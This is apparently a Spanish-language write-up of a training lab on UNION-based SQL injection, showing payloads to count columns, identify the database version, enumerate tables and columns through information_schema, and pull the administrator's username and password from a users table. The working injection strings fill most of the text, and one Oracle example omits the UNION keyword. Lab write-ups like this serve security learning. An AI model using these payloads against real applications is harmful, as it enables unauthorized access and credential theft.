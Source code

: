 Objetivo: Para resolver el laboratorio, realice un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.
#### Averiguar la cantidad de columnas que tiene la tabla en uso:
****
Si realizamos un ordenamiento respecto a la segunda columna con `' ORDER BY 2-- -`
o `' UNION SELECT "a","b"-- -` vemos que la web no lanza ningun error. Por lo tanto entendemos que la tabla tiene 2 columnas.

Consulta para averiguar la cantidad de columnas de la tabla en uso: `SELECT * FROM articles WHERE category='Gifts' ORDER BY 2-- -'`

Consulta (UNION): `SELECT * FROM articles WHERE category='Gifts' UNION SELECT "a","b"-- -'`

![[Pasted image 20250720132626.png]]

La tabla actual en uso tiene dos columnas, ahora debemos conocer a que BBDD nos estamos enfrentando.

#### Averiguar a qué Base de Datos nos estamos enfrentando
****
Cada gestor de bases de datos tiene su forma de consultar la versión de la misma, de colocar comentarios, etc. Por lo tanto tendremos en cuenta lo siguiente al querer averiguar la versión.

##### Database version

| Gestor     | Consulta                                                           |
| ---------- | ------------------------------------------------------------------ |
| Oracle     | `SELECT banner FROM v$version   SELECT version FROM v$instance   ` |
| Microsoft  | `SELECT @@version`                                                 |
| PostgreSQL | `SELECT version()`                                                 |
| MySQL      | `SELECT @@version`                                                 |
Consulta versión PostgreSQL: `SELECT * FROM articles WHERE category='' UNION SELECT version(),NULL-- -'`
Consulta versión Microsoft y MySQL: `SELECT * FROM articles WHERE category='' UNION SELECT @@version,NULL-- -'`
Consulta versión Oracle: `SELECT * FROM articles WHERE category='' SELECT banner,NULL FROM v$version-- -`

![[Pasted image 20250720133542.png]]

#### Conocer la tabla que almacena los usuarios y las contraseñas.
****
Para ello, haremos uso de `information_schema`
- `information_schema.schemata` -> Bases de datos existentes.
- `information_schema.tables` -> Tablas existentes
- `information_schema.columns` -> Columnas existentes

Consulta para ver las Bases de datos existentes: `' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -`

![[Pasted image 20250720133752.png]]

Vemos que hay 3 bases de datos, la que a nosotros nos interesa es la `public`. Lo siguiente que queremos hacer es ver las tablas existentes dentro de la base de datos `public`. Para ello, usaremos la siguiente consulta:

Consulta para averiguar las tablas de una Base de dato específica: `' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public'-- -`

![[Pasted image 20250720134014.png]]

Aquí vemos dos tablas dentro de la base de datos  `public`: `products` y `users`.
En la tabla `users` están almacenadas las credenciales.

Consulta para conocer las columnas de una tabla: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -`

![[Pasted image 20250720140407.png]]

Vemos representadas las columnas de la tabla `users`. Estas son: `password`, `username` y `email`. Ahora queremos conocer la contraseña del usuario `administrator`.

Consulta para conocer la contraseña de un usuario: `' UNION SELECT username,password FROM users WHERE username='administrator'-- -`

![[Pasted image 20250720142904.png]]

Aquí vemos representada el usuario y la contraseña del usuario `administrator`.
#### Nos autenticamos como el usuario administrator
****
![[Pasted image 20250720143021.png]]

![[Pasted image 20250720143033.png]]
